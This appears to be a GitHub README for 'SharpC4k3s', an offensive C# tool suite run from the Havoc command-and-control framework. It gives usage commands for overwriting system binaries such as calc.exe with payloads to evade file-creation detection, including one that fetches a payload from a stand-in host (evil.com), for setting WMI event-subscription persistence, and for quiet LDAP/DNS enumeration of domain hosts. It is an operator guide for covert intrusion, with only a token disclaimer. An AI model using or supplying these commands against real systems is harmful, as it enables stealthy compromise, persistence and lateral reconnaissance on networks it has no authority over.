 <div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/90aed9430f5944f569a7e0a0c2caf2a1a47c7b37/examples/SHARPCAKES.png">
</div>
<div align="center">
	Welcome to SharpC4k3s
</div>
<br>

## Tool Suite
- **HollowNGo**
- **GhostGrip WMI**
- **Host2IP**

The SharpC4k3 Suite was designed to be executed inline, however like any C# Program they be used standalone also. All Tools leverage .Net v2 to ensure compatibility with target hosts.

## HollowNGO
HollowNGo aims to avoid FileCreation Events by utilising and hijacking files that already exist on disk. This is achieved by reading your payload as a compressed byte array and converting it to base64 which is then stored in a memorysteam. HollowNGo then sets the target file stream length to 0, and using the orignal encoding operation in reverse, writes to the target file. There are a few options when running the tool as shown below. Note that creating the encoded binary data locally (-encode) it is expected to run on your dev box not the target.

#### Create compressed encoded binary data
**Usage:** HollowNGo.exe -encode <source.exe> -output <output.txt>
- **Example:** HollowNGo.exe C:\Users\User\Documents\MyEvil.Exe -output EvilB64.txt

#### Via data output from -encode option
**Usage:** HollowNGo.exe -source <base64_content> -target <target.exe>
- **Example:** dotnet inline-execute HollowNGo.exe -sourcelocal <EvilB64.Code> -target C:\Windows\System32\calc.exe

#### Via remote hosted file
**Usage:** UsageHollowNGo.exe -sourceremote <SourceURI> -target <target.exe>
- **Example:** dotnet inline-execute HollowNGo.exe -sourceremote http://evil.com/payload.exe -target C:\Windows\System32\calc.exe
<div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/c674b6dd870ddc8f4c7601b8d9e18f0feec36381/examples/HollowNGo.png">
</div>
<div align="center">
	HollowNGo Havoc example
</div>
<br>

## GhostGrip WMI
GhostGrip WMI aims to simplify the process of setting WMI persistence on your target with easy to use flag options. Ghost Grip WMI creates a WMIEventSubscription based on your prefered event for persistence as well as its execution method. Use HollowNGo prior to set up your executable to avoid FileCreation Events.

**Usage:** GhostGrip_WMI.exe -location <path_to_executable> -type <time/logon/eventcode> -execution <executiontype> -randomizename <true/false>
- **Example:** dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type eventcode -eventcode 4726 -execution direct -randomizename true
- **Example:** dotnet inline-exeucte GhostGrip_WMI.exe -location C:\Windows\System32\calc.exe -type logon -execution invoke-wmimethod -randomizename false
<div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/77242f2d974647427e6df74a15df5de9512e4070/examples/GhostGrip_WMI.png">
</div>
<div align="center">
	GhostGrip WMI Havoc example
</div>
<br>

## Host2IP
Host2IP aims to be a little less noisy than the traditional SMB/ICMP scans to find hosts within a domain environment. Host2IP uses LDAP queries to generate a list of hostnames, the list is then resolved via DNS. This can be achieved via -mode flag with slow/fast options to control the network traffic rate. If your current process does not have not have the correct domain priviliges you will have to provide credentials.

**Usage:** Host2IP.exe -domain <domain_name> -mode <fast/slow> -auth <true/false> -user <username> -password <password>
- **Example:** dotnet inline-execute Host2IP.exe -domain target.local -mode fast -auth false
- **Example:** dotnet inline-execute Host2IP.exe -domain target.locol -mode slow -auth true -user TheRat -password pass123!
<div align="center">
	<img src="https://github.com/MrR4tC4k3/SharpC4k3s/blob/64cd688e35ab726ded7a11669a85463f3dfbd857/examples/Host2IP.png">
</div>
<div align="center">
	Host2IP Havoc example
</div>
<br>

### **Disclaimer:** These tools are not to be used for any unauthorized activity :)
